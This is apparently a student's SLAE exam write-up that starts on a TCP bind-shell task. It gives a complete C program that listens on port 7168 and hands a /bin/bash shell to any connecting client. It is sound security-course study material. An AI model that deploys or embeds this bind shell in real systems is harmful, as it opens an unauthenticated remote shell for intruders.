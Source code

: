 # SLAE Exam - Assignment 1

## Goal of the assignment:
Write shellcode that binds to a TCP port and on connection grants a shell. The port to bind to should be easily configurable.

## TCP Bind in C
Before we write the shellcode in x86 assembly we'll write the assignment in C. This makes converting into assembly a lot easier.
The following code was adapted from an example taken from https://azeria-labs.com/tcp-bind-shell-in-assembly-arm-32-bit/

```c
// Filename: tcp_bind_shell.c

#include <stdio.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>

int socketfd;
int socketid;

struct sockaddr_in hostaddr;

int main() {
    // Create socket
    socketfd = socket(PF_INET, SOCK_STREAM, 0);

    // Setup struct for bind() argument
    hostaddr.sin_family = AF_INET;
    hostaddr.sin_port = htons(7168);
    hostaddr.sin_addr.s_addr = htonl(INADDR_ANY);

    // Bind socket to ip 0.0.0.0, port 7168
    bind(socketfd, (struct sockaddr*) &hostaddr, sizeof(hostaddr));

    // Listen for incoming connections
    listen(socketfd, 2);

    // Accept incoming connection
    socketid = accept(socketfd, NULL, NULL);

    // Bind STDIN, STDOUT, STDERR to incoming connection
    dup2(socketid, 0);
    dup2(socketid, 1);
    dup2(socketid, 2);

    // Bind shell to incoming connection
    execve("/bin/bash", NULL, NULL);
}
```

